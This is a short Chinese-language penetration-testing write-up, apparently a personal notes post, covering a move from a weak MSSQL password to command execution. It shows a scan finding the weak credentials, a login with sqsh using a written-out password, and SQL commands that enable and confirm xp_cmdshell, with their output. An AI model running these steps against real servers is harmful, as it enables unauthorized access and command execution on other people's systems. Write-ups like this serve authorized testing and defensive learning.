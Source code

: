 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date: 2025-10-16
title: 从mssql到rdp远程桌面连接
category:
  - 项目
---
```

`fscan`扫描，爆出`mssql`弱密码`san:1`
使用sqsh连接mssql
```bash
sqsh -S 10.99.xx.xx -U sa -P 1
```
为了执行命令，首先查看最短最方便的路径`xp_cmdshell`命令执行
启动`xp_cmdshell`
```bash
1> EXEC sp_configure 'show advanced options', 1; 
2> RECONFIGURE; 
3> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. (return status = 0)
```
查询`xp_cmdshell`是否启用
```bash
1>EXEC sp_configure 'xp_cmdshell';
2>go

name
        ----------------------------------------------------------------------------------------------------------------
        xp_cmdshell

        minimum     maximum     config_value run_value
        ----------- ----------- ------------ -----------
                  0           1            1           1
```
